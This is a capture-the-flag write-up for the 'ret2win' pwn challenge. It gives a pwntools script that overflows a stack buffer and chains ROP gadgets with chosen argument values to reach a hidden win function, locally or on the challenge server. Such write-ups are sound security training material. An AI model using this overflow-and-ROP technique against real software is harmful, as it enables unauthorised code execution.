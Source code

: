 #writeup
# ret2win
+ Pwn
+ 83 pts
***
##### Description
>Are you looking for an exploit dev job. Well apply to the Republic of Potatoes. We are looking for the best hackers out there. Download the binary, find the secret door and remember to pass the right password.
***
##### Files
`ret2win` - ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6407290ddc178ebcff6a243a585c21e8c32a440b, for GNU/Linux 3.2.0, not stripped
***
##### Solve
```python
#!/usr/bin/python3
  
from pwn import *
  
context.binary='./ret2win'
context.terminal= ['tmux', 'splitw', '-v']
  
if args['REMOTE']:
    p = remote('ret2win.challenges.ctf.ritsec.club', 1337)
else:
    p = process('./ret2win')
    #p = gdb.debug('./ret2win', '''
    #    starti
    #''')
  
e = ELF('./ret2win')
win = e.sym.supersecrettoplevelfunction
  
p.recvuntil(b'(ROP)\n')  #does not work on remote, buffer not flushed?
p.sendline(40*b'A'+p64(0x4012b3)+p64(0xcafebabe)+p64(0x4012b1)+p64(0xc0debabe)+p64(0xffffffff)+p64(win))
p.interactive()
```

